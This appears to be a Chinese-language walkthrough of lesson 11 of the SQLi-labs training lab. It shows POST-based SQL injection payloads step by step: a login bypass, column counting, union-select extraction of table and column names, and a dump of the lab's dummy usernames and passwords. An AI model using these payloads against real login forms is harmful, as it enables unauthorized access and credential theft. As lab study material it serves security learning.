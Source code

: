 ------

## less-11:

利用burp suite抓post包 拿到post请求模板 利用hackbar修改post的值 用万能密码进行尝试

### 注意：这里的Submit的S一定要大写！！

```mysql
uname=qwe' or 1=1 -- -&passwd=123&Submit=Submit 发现存在sql注入
```

```mysql
判断列数     uname=qwe' order by 4 -- -&passwd=123&Submit=Submit 
回显:        Unknown column '4' in 'order clause'
继续尝试     uname=qwe' order by 2 -- -&passwd=123&Submit=Submit
无回显 判断列数只有2列
```

```mysql
uname=qwe' union select 1,2 -- -&passwd=123&Submit=Submit
可以正常回显
```

回显:Your Login name:1
Your Password:2

开始构造SQL注入语句,和GET型注入差不多

```mysql
uname=qwe' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() -- -&passwd=123&Submit=Submit
回显：
Your Login name:1
Your Password:emails,referers,uagents,users
```

继续构造语句爆出username,password

```mysql
uname=qwe' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' -- -&passwd=123&Submit=Submit
回显:
Your Login name:1
Your Password:id,username,password
```

```mysql
uname=qwe' union select 1,group_concat(username,password) from users -- -&passwd=123&Submit=Submit
回显：
Your Login name:1
Your Password:DumbDumb,AngelinaI-kill-you,Dummyp@ssword,securecrappy,stupidstupidity,supermangenious,batmanmob!le,adminadmin,admin1admin1,admin2admin2,admin3admin3,dhakkandumbo,admin4admin4
```

------

## less-12
